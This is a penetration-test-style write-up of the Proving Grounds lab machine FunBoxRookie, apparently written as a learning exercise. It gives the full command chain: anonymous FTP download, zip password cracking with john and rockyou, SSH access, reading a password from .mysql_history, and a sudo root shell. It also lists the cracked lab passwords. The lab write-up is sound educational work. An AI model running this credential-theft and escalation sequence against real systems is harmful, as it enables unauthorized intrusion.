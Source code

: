 # Penetration Test Report for Proving Grounds - FunBoxRookie
- **Author:** Joey Melo
- **Date:** March 18, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.99.107 (FunBoxRookie)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized clients is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the FunBoxRookie network. The tester is tasked with following methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the FunBoxRookie network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the FunBoxRookie network. When performing the attacks, the tester was able to gain access to the machine, primarily due to FTP misconfigurations and weak password policy. The host has been sucessfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 21, 22, 80
### FTP Enumeration
Upon manual enumeration of the available FTP service, the tester noticed it had anonymous access enabled which allowed the tester to read all files in the FTP folder.
The content comprised of multiple password-protected zip files and an encoded message from admin informing that these files contain ssh keys.

![Directory listing of the FTP server](https://i.imgur.com/2tPQEWh.png)

## Initial Access
### Vulnerability Explanation
The FTP server allows anonymous access to sensitive files. Although these files are encrypted with password protection, the passwords used are weak and can be guessed with a simple word list. 
### Vulnerability Fix
Disable anonymous access to the FTP server and enforce a stronger password policy in the files. The tester recommends changing the files passwords immediately.
### Attack Walkthrough
Initial access was obtained to the FTP server with anonymous credentials and all files were transfer to the tester's machine.
```bash
ftp anonymous@192.168.99.107
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
```
The tester was able to decode the *.@admin* message and read its contents, which revealed that the zip files contain keys to the SSH server.
```bash
cat .@admins | base64 -d
```
![Contents of .@admins file](https://i.imgur.com/k5ytUEx.png)

Then, using a simple wordlist, two passwords were cracked. The zip files were extracted and they contained an access key to the SSH server. The tester decided to connect to the *tom* user.
```bash
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire
ssh -i id_rsa tom@192.168.99.107 
```
![Initial access via SSH](https://i.imgur.com/6QtQwpJ.png)

As proof of exploitation, the tester captured the *local.txt* flag.

![Redacted user flag](https://i.imgur.com/1p3so0y.png)

## Privilege Escalation
### Vulnerability Explanation
After establishing a foothold on the tagert, the tester noticed that the compromised user (*tom*) was a member of the *sudo* group, which allows him to execute commands with high privileges.
The tester also notice a *.mysql_history* file in the user's home directory, which contained a password. 
### Vulnerability Fix
Unless the *tom* user needs to execute privileged commands, remove him from the *sudo* group or limit its access to only specific applications. Morever, the tester recommends either not storing plaintext passwords in history files or backing up and cleaning these files frequently to avoid leaking sensitive information.
### Attack Walkthrough
A simple user and directory enumeration revealed that *tom* is a member of the *sudo* group, and his home directory contains the *.mysql_history* file.
```bash
id
ls -la
cat .mysql_history
```
![Password on .mysql_history](https://i.imgur.com/28yTcb9.png)

The tester then successfully reused the captured password to execute high-privileged commands and obtain a *root* shell.
```bash
sudo su
```
![Redacted root flag](https://i.imgur.com/1p3so0y.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.189.107

# Get FTP files
ftp anonymous@192.168.189.107 # blank password
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
cat .@admins | base64 -d

# Crack zip files
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire

# Initial access
ssh -i id_rsa tom@192.168.189.107 
pwd; id; cat local.txt; ifconfig

# Privilege escalation
ls -la
cat .mysql_history # pwd=xx11yy22!
sudo su
cd /root
pwd; id; cat proof.txt; ifconfig
```
